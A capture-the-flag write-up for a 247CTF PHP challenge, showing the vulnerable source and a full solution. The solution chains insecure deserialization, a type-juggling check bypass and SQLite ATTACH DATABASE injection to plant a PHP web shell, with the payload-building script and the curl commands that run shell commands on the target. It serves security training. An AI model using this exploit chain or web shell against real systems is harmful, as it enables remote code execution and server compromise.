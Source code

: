 
## Description

> Using a specially crafted cookie, you can write data to /dev/null. Can you abuse the write and read the flag?

## Source Code

```php
<?php

class insert_log
{
    public $new_data = "Valid access logged!";
    public function __destruct()
    {
        $this->pdo = new SQLite3("/tmp/log.db");
        $this->pdo->exec("INSERT INTO log (message) VALUES ('".$this->new_data."');");
    }
}

if (isset($_COOKIE["247"]) && explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0") {
    file_put_contents("/dev/null", unserialize(base64_decode(explode(".", $_COOKIE["247"])[0])));
} else {
    echo highlight_file(__FILE__, true);
}
```


## Short Solution Description / Tags

Insecure Deserialization in PHP, SQLite SQL Injection, RCE

## Solution

```php
explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0"
```

Regard with this if condition, we can set it to true with the cookie 247=\<b64>.0e.

To create webshell, set SQLi Attach Database payload to new_data property of insert_log class.

create_payload.php

```php
<?php
class insert_log
{
    public $new_data = "";
}

$obj = new insert_log();
$obj->new_data = $obj->new_data . '\');';
$obj->new_data = $obj->new_data . "ATTACH DATABASE 'pwn2.php' AS lol;";
$obj->new_data = $obj->new_data . "CREATE TABLE lol.pwn (dataz text);";
$obj->new_data = $obj->new_data . 'INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET[\'cmd\']); ?>");';
$obj->new_data = $obj->new_data . '--';

echo base64_encode(serialize($obj));
```

Result:

```bash
$ PAYLOAD=$(php create_payload.php)

$ curl https://495cccf887edb2d8.247ctf.com/ -b "247=$PAYLOAD.0e"

$ curl -o- -s https://495cccf887edb2d8.247ctf.com/pwn2.php -G --data-urlencode "cmd=grep -ao '247CTF{[0-9a-f]*}' /tmp/log.db"
 I247CTF{******}
```

## References

- [Remote Command Execution using SQLite command - Attach Database](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/SQLite%20Injection/#remote-command-execution-using-sqlite-command-attach-database)
